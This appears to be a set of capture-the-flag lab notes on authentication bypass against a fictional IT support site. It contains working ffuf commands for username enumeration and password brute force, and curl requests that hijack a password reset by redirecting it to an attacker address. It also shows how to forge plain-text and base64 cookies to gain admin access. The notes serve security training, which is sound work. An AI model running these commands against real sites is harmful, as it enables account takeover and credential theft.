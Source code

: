 # Authentication Bypass
## Username Enumeration
* Creating a list of valid usernames is helpful exercise when trying to find authentication vulnerabilities.
* Website error messages are great resource for collating information to build list of valid usernames. 

1. Go to the fake IT Support website’s signup page.
2. Use form to create a new user account.
3. Enter username 'admin' and fill in the other form fields with fake information.
4. Produces "An account with this username already exists" error.
5. Use existence of the error message to produce list of valid usernames already signed up on the system.
```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```
   * `-w` selects wordlist file.
   * `-X` specifies request method.
     * GET request by default.
   * `-d` specifies data to be sent.
     * `username` set to value of `FUZZ`.
     * `FUZZ` keyword signifies where contents from wordlist will be inserted in request.
  * `-H` adds additional headers to the request.
    * `Content-Type` is set so the web server knows that form data is being sent.
  * `-u` specifies URL that requests are made to.
  * `-mr` is text on the page to validate that a valid username has been found.

## Brute Force
* Automated process that tries a list of commonly used passwords against either a single username or a list of usernames.

1.Brute force the fake IT Support website’s signup page.
* Make sure the terminal is in the same directory as the `valid_usernames.txt` file when running the `ffuf` command.
```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```
* `FUZZ` keyword now needs to specify custom keywords because multiple wordlists are being used.
* `W1` for the list of valid usernames.
* `W2` for the list of passwords to try.
* `-w` specifies the multiple wordlists but are separated with a comma.
* `-fc` used to check for an HTTP status code other than `200` (a positive match).

## Logic Flaws
* Occurs when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.
* These can exist in any area of a website including authentication processes.

1. Examine the 'Reset Password' function of the fake IT Support website.
2. This has a form asking for the email address associated with the account on which to perform the password reset.
3. An 'Account not found from supplied email address' error message is received if an invalid email is entered.
   * Use the valid email address `robert@acmeitsupport.thm`.
5. The second stage of the reset form asks for the username associated with the login email address.
   * Enter `robert` as the username.
7. Press the 'Check Username' button.
8. Message confirms that a password reset email has been sent to `robert@acmeitsupport.thm`.
   * Username is submitted in a `POST` field to the web server and mail address is sent in the query string request as a `GET` field.
11. Manually make a request to the web server: `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'`
    * `-H` adds an additional header to the request.
      * `Content-Type` set to `application/x-www-form-urlencoded`.
      * This lets the web server know that form data is being sent so it properly understands the request.
16. The user account is retrieved using the query string in this application.
17. However, the password reset email is sent using the data found in the `$_REQUEST` PHP variable.
    * `$_REQUEST` is an array that contains data received from the query string and `POST` data.
    * Application logic for `$_REQUEST` favours `POST` data fields over the query string if the same key name is used for both the query string and 'POST' data
    * Because of this where the password reset email gets delivered to can be controlled if another `email` parameter is added to the 'POST' form.
```
curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

> 1. Create another account in the customer section.
>    * Doing so provides a unique email address that can be used to create support tickets.
> 3. The email address is in the format of `{username}@customer.acmeitsupport.thm`.
> 4. Rerun the curl Request but with the new `@acmeitsupport.thm` in the `email` field:
> 5. `curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'`
> 6. This will create a ticket on the new account which contains a link to log in as Robert.

## Cookie Tampering
* Examining and editing cookies set by the web server during an online session can have multiple outcomes:
  * Unauthenticated access.
  * Access to another user's account.
  * Elevated privileges.
### Plain Text
* The contents of some cookies can be in plain text, and it is obvious what they do.
* Sample cookies set after a successful login may be `Set-Cookie: logged_in=true; Max-Age=3600; Path=/` and `Set-Cookie: admin=false; Max-Age=3600; Path=/`.
  * One cookie (`logged_in`) appears to control whether the user is currently logged in or not.
  * The other (`admin`) controls whether the visitor has admin privileges.
  * The changing of privileges should be possible if the contents of the cookies were to be changed and a new Request made.

> 1. Request the target page: `curl http://MACHINE_IP/cookie-test`.
>    * This returns a 'Not Logged In' message.
> 3. Send another Request with the `logged_in` cookie set to `true` and the `admin` cookie set to `false`: `curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test`.
>    * This returns a 'Logged In As A User' message.
> 6. Send another Request setting both the `logged_in` and `admin` cookie to `true`: `curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test`.
>    * This returns a 'Logged In As An Admin' message.

### Hashing
* Cookie values can look like a long string of random characters (hashes).
* These are an irreversible representation of the original text.
  
| Original String | Hash Method | Output
| --- | --- | ---
| 1 | md5 | c4ca4238a0b923820dcc509a6f75849b
| 1 | sha-256 | 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b
| 1 | sha-512 | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a
| 1 | sha1 | 356a192b7913b04c54574d18c28d46e6395428ab

* Hash output from the same input string can significantly differ depending on the hash method in use.
* Same output is produced every time even though the hash is irreversible.
  * This is helpful for testers as services such as [https://crackstation.net/(]https://crackstation.net/) keep databases of billions of hashes and their original strings.

### Encoding
* Similar to hashing in that it creates a seemingly random string of text although encoding is **reversible**.
* Allows conversion of binary data into human readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.
* **Base32** converts binary data to the characters `A-Z` and `2-7`.
* **Base64** converts using the characters `a-z`, `A-Z`, `0-9`, `+`, `/` and `=`for padding.

> * Example of data that is set by a web server upon logging in: `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
> * Decoding the base64 string results in a value of `{"id":1,"admin": false}`.
>   * This can then be encoded back to base64 after setting the admin value to true to provide admin access.

